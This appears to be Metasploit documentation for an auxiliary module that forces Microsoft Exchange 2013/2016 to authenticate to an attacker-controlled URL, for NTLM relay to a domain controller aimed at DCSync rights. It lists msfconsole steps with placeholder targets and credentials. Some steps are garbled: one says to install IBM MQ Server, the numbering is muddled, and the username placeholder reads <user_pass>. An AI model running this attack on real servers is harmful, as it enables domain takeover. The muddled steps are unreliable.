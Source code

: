 ## Vulnerable Application

  * Microsoft Exchange 2013 and 2016
  * Tested on Exchange 2016
  * Usage:
    * Download and install Exchange Server within a Windows domain
    * Setup a mailbox with a domain user
    * Run the module
    * Relay the NTLM authentication to the DC

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install IBM MQ Server 7.5, 8, or 9
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/exchange_web_server_pushsubscription```
  4. Do: ```set attacker_url <url>```
  6. Do: ```set rport <target_port>```
  5. Do: ```set rhost <target_IP>```
  6. Do: ```set domain <domain_name>```
  6. Do: ```set password <user_pass>```
  6. Do: ```set username <user_pass>```
  7. Do: ```run```

## Options

  **The ATTACKER_URL option**

  This option should contain a URL under the attacker's control. This is where the Exchange will try to authenticate.

## Scenarios

  This module can be used to make a request to the Exchange server and force it to authenticate to a URL under our control. 
  An example scenario is that when this module is combined with an NTLM relay attack, if the Exchange server has the necessary permissions it is possible to grant us DCSync rights.
